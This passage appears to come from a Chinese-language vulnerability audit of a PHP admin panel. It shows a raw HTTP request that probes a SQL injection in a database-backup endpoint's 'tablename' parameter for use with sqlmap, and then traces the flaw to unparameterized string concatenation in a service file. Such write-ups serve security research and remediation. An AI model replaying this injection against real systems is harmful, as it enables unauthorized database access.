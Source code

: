 保存文件后使用 sqlmap 进行攻击：

![document_image_rId89.png](assets/1703831601-8e897d187efbaf986ca76fb84273317c.png)

```php
GET /adminapi/system/backup/read?tablename=' HTTP/1.1
Host: localhost:45600
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/plain, */*
Authori-zation: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiIxZDlmMjExMGZlOTgzM2U1MTQ4MmQyZjdkMTFmZjFlNiIsImlzcyI6ImxvY2FsaG9zdDo0NTYwMCIsImF1ZCI6ImxvY2FsaG9zdDo0NTYwMCIsImlhdCI6MTY5NDA1NjkyMCwibmJmIjoxNjk0MDU2OTIwLCJleHAiOjE2OTY2NDg5MjAsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.6gzs6MXyxnHOEckxP4ejuoNJxLpMcT3MdyLRPBAkJ8k
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:45600/admin/system/maintain/system_databackup/index
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

### 漏洞审计

在`services/system/SystemDatabackupServices.php`第 68 行，使用了 query 执行 sql 语句，其中`$tablename`作为字符串进行拼接，没有进行预编译或者过滤。

![document_image_rId90.png](assets/1703831601-cc25bdf6b384b7b486e0b7e7dfbb2eb1.png)
